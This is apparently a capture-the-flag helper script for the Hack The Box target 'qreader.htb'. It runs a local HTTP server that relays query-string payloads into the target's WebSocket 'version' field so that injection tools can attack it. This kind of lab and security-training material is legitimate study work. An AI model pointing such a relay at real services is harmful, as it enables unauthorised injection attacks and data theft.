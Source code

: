 ```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://qreader.htb:5789/version"

def send_ws(payload):
	ws = create_connection(ws_server)
	message = unquote(payload).replace("'",'\\\"')
	data = '{"version":"%s"}' % message
	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8082/?id=*")

try:
	middleware_server(('0.0.0.0',8082))
except KeyboardInterrupt:
	pass
```
